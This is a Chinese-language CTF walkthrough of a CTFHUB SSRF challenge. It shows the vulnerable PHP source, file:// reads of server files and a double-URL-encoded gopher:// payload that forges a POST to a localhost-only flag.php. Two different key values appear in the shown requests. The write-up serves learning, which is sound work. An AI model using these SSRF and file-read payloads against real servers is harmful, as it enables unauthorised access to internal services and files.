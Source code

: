 ### gopher 协议伪造 HTTP 请求

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687f193f58cb8da5c8caf5e1.png)

老样子直接访问 `127.0.0.1/flag.php`，回显一个输入框

![](https://pic1.imgdb.cn/item/687f19ad58cb8da5c8caf5ea.png)

查看源码拿到一个 Key 值

![](https://pic1.imgdb.cn/item/687f1a1058cb8da5c8caf5f3.png)

输入后回车，提示仅限 `127.0.0.1` 查看

![](https://pic1.imgdb.cn/item/687f1c3058cb8da5c8caf6aa.png)

我们尝试用 file:// 读取文件,得到如下代码：

```http
?url=file:///var/www/html/index.php
```

```php
<?php
 
error_reporting(0);
 
if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

// 初始化 cURL，这是 PHP 提供的一个发起 HTTP 请求的库，底层可以发起 HTTP、HTTPS、FTP、gopher 等协议的请求
$ch = curl_init();

// 将用户传入的 url 参数直接传给 cURL 请求目标
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);

// CURLOPT_HEADER: 0 不返回响应头
curl_setopt($ch, CURLOPT_HEADER, 0);

// CURLOPT_FOLLOWLOCATION, 1: 如果目标返回 3xx 跳转，cURL 会自动跟随跳转
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);

// 执行请求
curl_exec($ch);

// 关闭连接，释放资源
curl_close($ch);
```

再读取 `flag.php` 的

```http
?url=file:///var/www/html/flag.php
```

```php
<?php
 
// 关闭所有错误报告，防止泄露敏感信息
error_reporting(0);
 
// 判断请求来源 IP 是否为本地地址 127.0.0.1
if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    // 如果不是本地访问，直接提示并终止脚本
    echo "Just View From 127.0.0.1";
    return;
}
 
// 从环境变量中获取 flag（一般在靶场环境中设置）
$flag = getenv("CTFHUB");

// 对 flag 做 MD5 哈希，得到 key
$key = md5($flag);
 
// 判断用户是否通过 POST 提交了 "key"，并且值与服务器计算的 $key 相同
if (isset($_POST["key"]) && $_POST["key"] == $key) {
    // 如果提交正确，返回 flag
    echo $flag;  // 当 post 传值为 key 时出 flag
    exit;
}
?>
 
<!-- 简单的 HTML 表单，允许用户提交 key -->
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug 信息：将服务器端计算的 key 显示在页面上（方便开发者调试，正常应删除） -->
<!-- Debug: key=<?php echo $key;?>-->
</form>

```

我们知道只要往 `flag.php` 传 key 值就可以得到 flag

而 `index.php` 可以利用 curl 传 url

那么我们可以用 gopher 协议在 `index.php` 中构造 POST 请求包往 `flag.php` 传 Key 值，以此获取 flag

所以我们通过 gopher 协议构造一个请求，配合 SSRF 模拟成内网用户去访问提交数据

构造这样的一个请求

![](https://pic1.imgdb.cn/item/687f1dd558cb8da5c8caf6ff.png)

直接 curl 后接 gopher 协议就先 URL 编码一次

关键的换行符是 CRLF（\r\n），而不是 LF（\n）单独使用

因为 **gopher://** 协议是**模拟原始 TCP 字节流**，而 HTTP 的协议报文换行是 `\r\n`，不能只用 `\n`

先把换行 `\r\n` 写成 **百分号编码**（url encode）：

- `\r` => `%0D`
- `\n` => `%0A`

于是变成：

```http
POST%20/flag.php%20HTTP/1.1%0D%0A
Host:%20127.0.0.1:80%0D%0A
Content-Type:%20application/x-www-form-urlencoded%0D%0A
Content-Length:%2036%0D%0A
%0D%0A
key=a840f3c56810783306b3a75f861bd31a
```

我这里思路是先跳到内网的 `index.php` 中再传入 POST 请求

所以要 URL 编码两次（在向服务器发送请求时，首先浏览器会进行一次 URL解码，因为有两个 ?url，所以会解码两次，其次服务器收到请求后，在执行 `curl` 功能时，进行第三次 URL解码）

最终使用 **gopher 协议 + 端口伪造请求**：

```http
?url=gopher://127.0.0.1:80/_
# _ 表示之后开始是 原始 TCP payload
```

最终 payload：

```http
?url=http://127.0.0.1:80/index.php?url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D0bd5e192bb3c5e0f3df6b8ddf4252d9c
```

![](https://pic1.imgdb.cn/item/687f203d58cb8da5c8caf79f.png)